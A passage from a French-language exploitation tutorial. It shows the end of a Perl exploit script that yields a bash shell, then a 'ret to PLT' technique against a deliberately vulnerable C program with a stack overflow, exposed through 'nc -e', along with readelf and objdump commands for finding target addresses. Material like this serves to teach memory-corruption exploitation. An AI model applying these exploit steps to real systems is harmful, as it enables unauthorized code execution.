 	# Jump on your shellcode !
	$payload .= pack('L', $bss); 

	print $payload;

Testons :
	:::console
	$ ./a.out "`perl sploit.pl`" 205                                                                                                       
	bash-4.2$

## 0x03 Ret to PLT (read/recv...)

Utilité : Cette technique est très utile lorsqu'on est limité par la taille de notre payload. Elle peut également être utilisée pour copier ce que l'on souhaites en mémoire, en étant plus gêné par l'ASLR. Cette technique simplifie beaucoup de choses !
Principe : Il s'agit de retourner sur une fonction tel que read/recv, en réutilisant le descripteur de fichier du programme, afin de pouvoir envoyer des données (payload) vers la zone mémoire de notre choix.

Voici le programme utilisé pour illustrer la technique. Celui-ci tourne avec : nc -lp 4444 -e ./a.out :

	:::c
	#include <unistd.h>

	char buffer[256];

	void foo(int size) {
	char buff[256];

    	read(STDIN_FILENO, buff, size);
	}

	int main(int argc, char **argv) {

	    int size;

	    read(STDIN_FILENO, &size, sizeof(int));
	    foo(size);

	    return 0;
	}

L'objectif est d'écraser EIP avec l'adresse de read@plt. On aura alors plus qu'à envoyer notre shellcode pour jumper dessus.

Récupérons l'adresse d'une zone +W :

	:::console
	$ readelf -S ./a.out | grep ".bss"
	  [25] .bss              NOBITS          08049720 00070c 000120 00  WA  0   0 32

Récupérons l'adresse de read@plt :

	:::console
	$ objdump -d ./a.out | grep "<read@plt>:"
	080482d0 <read@plt>:
